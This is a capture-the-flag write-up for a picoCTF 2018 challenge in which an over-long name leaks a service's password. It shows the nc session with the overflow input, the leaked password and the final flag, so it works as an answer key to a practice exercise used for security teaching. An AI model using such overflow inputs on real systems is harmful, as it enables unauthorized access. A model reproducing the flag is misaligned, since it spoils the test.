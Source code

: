# LEVEL GOAL

Can you authenticate to this service [1]  and get the flag? Connect with nc 2018shell1.picoctf.com 31045. Source [2] .

# HINTS

(1) Are all the system calls being used safely? (2) Some people can have reallllllly long names you know..

# SOLUTION

`nikel@pico-2018-shell-1:~$ nc 2018shell1.picoctf.com 31045`

`What is your name?`

`Nikhil`

`Hello Nikhil,`

`Please Enter the Password.`

`AAAAAAAAAAAA`

`Incorrect Password!`

`nikel@pico-2018-shell-1:~$ nc 2018shell1.picoctf.com 31045`

`What is your name?`

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'

`Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,`

`a_reAllY_s3cuRe_p4s$word_d98e8d`

`a_reAllY_s3cuRe_p4s$word_d98e8d`

`picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}`

# FLAG

picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
